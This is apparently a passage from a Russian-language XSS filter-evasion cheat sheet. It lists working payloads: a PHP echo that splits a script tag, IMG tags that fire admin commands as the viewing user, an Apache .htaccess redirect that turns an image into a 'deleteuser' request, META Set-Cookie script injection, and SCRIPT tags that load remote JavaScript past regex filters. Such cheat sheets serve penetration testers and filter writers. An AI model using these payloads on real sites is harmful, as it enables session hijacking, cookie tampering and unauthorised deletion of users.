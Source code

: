 ```php
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

### IMG Встроенные команды

Эта атака работает только в том случае, если она внедрена (например, веб-панель) на веб-страницу, защищенную паролем, и эта защита паролем работает с другими командами в том же домене. Это может быть использовано для удаления пользователей, добавления пользователей (если пользователь, который посещает страницу, является администратором), отправки учетных данных в другое место и т.д. Это один из менее используемых, но более полезных XSS-векторов:

```html
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
```

#### IMG Встроенные команды часть II

Это еще более пугающая атака, потому что нет абсолютно никаких идентификаторов, которые могли бы вызвать подозрение, кроме того, что изображение размещено не на вашем собственном домене. Вектор использует 302 или 304 (другие тоже работают), чтобы перенаправить изображение обратно в команду. Таким образом, обычный `<IMG SRC="httx://badguy.com/a.jpg ">` на самом деле может быть вектором атаки для запуска команд от имени пользователя, который просматривает ссылку на изображение. Вот строка `.htaccess` (в Apache) для создания вектора:

```log
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser
```

(Спасибо Тимо за участие в этом)

### Cookie Manipulation

Этот метод довольно неясен, но есть несколько примеров, где допускается использование `<META` и его можно использовать для перезаписи файлов cookie. Есть и другие примеры сайтов, где вместо того, чтобы извлекать имя пользователя из базы данных, оно сохраняется в файле cookie и отображается только тому пользователю, который посещает страницу. Объединив эти два сценария, вы можете изменить файл cookie жертвы, который будет отображаться для нее в виде JavaScript (вы также можете использовать это, чтобы люди выходили из системы или меняли свои пользовательские состояния, заставляли их входить в систему под вашим именем и т.д.):

```html
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

### XSS с использованием инкапсуляции HTML-цитат

Эта атака изначально была протестирована в IE, поэтому ваш пробег может отличаться. Для выполнения XSS на сайтах, которые разрешают `<SCRIPT>`, но не разрешают `<SCRIPT SRC...`, используя фильтр регулярных выражений `/\<script\[^\>\]+src/i`, выполните следующие действия:

```html
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Если вы выполняете XSS на сайтах, которые разрешают `<SCRIPT>`, но не разрешают `\<script src...` из-за фильтра регулярных выражений, который разрешает `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` (Это важное значение, потому что это регулярное выражение встречается на просторах):

```html
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```
